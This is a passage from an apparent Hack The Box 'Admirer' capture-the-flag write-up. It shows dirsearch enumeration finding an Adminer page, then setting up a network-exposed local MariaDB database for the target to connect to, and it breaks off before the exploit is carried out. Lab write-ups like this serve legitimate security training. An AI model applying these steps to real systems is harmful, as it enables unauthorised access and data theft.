 ```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/admirer]
└─$ python3 /tools/dirsearch.py -u http://admirer.htb/utility-scripts/ -e php,html -x 403,404 -t 50

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, html | HTTP method: GET | Threads: 50 | Wordlist size: 9395

Output File: /tools/dirsearch/reports/admirer.htb/-utility-scripts-_21-09-20_13-52-13.txt

Error Log: /tools/dirsearch/logs/errors-21-09-20_13-52-13.log

Target: http://admirer.htb/utility-scripts/

[13:52:13] Starting: 
[13:52:29] 200 -    4KB - /utility-scripts/adminer.php
[13:52:44] 200 -   83KB - /utility-scripts/info.php
[13:52:51] 200 -   32B  - /utility-scripts/phptest.php                      
                                                                             
Task Completed
```

# Exploitation

---

On the adminer page, I can connect to a any database. The credentials found in the backup do not work on the site. But I might be able to connect to my local SQL service and then get a shell over that connection. First, I need to edit the config file:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/admirer]
└─$ sudo nano /etc/mysql/mariadb.conf.d/50-server.cnf
# Instead of skip-networking the default is now to listen only on
# localhost which is more compatible and is not less secure.
bind-address            = 0.0.0.0
```

So now you can start the service and start mysql. I create a database and table to connect to:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/admirer]
└─$ sudo mysql
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 46
Server version: 10.5.12-MariaDB-1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> CREATE DATABASE pawn;
Query OK, 1 row affected (0.000 sec)

MariaDB [(none)]> use pawn
Database changed
MariaDB [pawn]> CREATE TABLE pawn (data VARCHAR(256));
Query OK, 0 rows affected (0.254 sec)
```
